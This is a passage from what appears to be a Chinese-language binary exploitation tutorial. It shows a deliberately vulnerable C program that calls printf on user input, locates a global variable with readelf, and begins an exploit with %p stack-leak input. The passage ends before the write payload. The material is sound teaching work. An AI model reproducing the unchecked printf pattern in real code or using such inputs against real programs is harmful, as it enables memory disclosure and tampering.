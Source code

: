但让我们先以一个简单的程序为例，先看看基本的利用过程。

{{< link href="/pwn_assets/fmtstr_arb_write.zip" content="fmtstr_arb_write.zip" title="Download fmtstr_arb_write.zip" download="fmtstr_arb_write.zip" card=true >}}

```c
#include <stdio.h>

int auth = 0;

int main() {
  char password[100];

  puts("Password: ");
  fgets(password, sizeof password, stdin);

  printf(password);
  printf("Auth is %i\n", auth);

  if(auth == 10) {
    puts("Authenticated!");
  }
}
```

目标很简单，我们需要把变量 `auth` 的值覆盖为 10。

很明显，这里存在格式化字符串漏洞，因为程序在没有检查用户的输入的情况下直接使用了用户
的输入作为格式化字符串函数的参数。但是由于使用了安全的 `fgets` ，所以程序不存在缓冲区
溢出的问题。这说明我们不能直接通过注入垃圾数据来覆盖 `auth` 的值。

### 1x01 找出 auth 的位置

由于它是一个全局变量，因此它位于二进制文件本身的符号表内。我们可以使用 `readelf`
来查看 ELF 文件中的符号信息。

```
$ readelf -s auth | grep auth
  34: 00000000     0 FILE    LOCAL  DEFAULT  ABS auth.c
  57: 0804c028     4 OBJECT  GLOBAL DEFAULT   24 auth
```

可以看到 `auth` 的地址是 `0x0804c028` 。

### 1x02 编写 Exploit

幸运的是，没有空字节，因此无需更改顺序。

```
$ ./auth
Password:
%p %p %p %p %p %p %p %p %p
0x64 0xf7e445c0 0x8049199 0xf7f50b8c 0x1 0xf7f136a0 0x25207025 0x70252070 0x20702520
Auth is 0
```
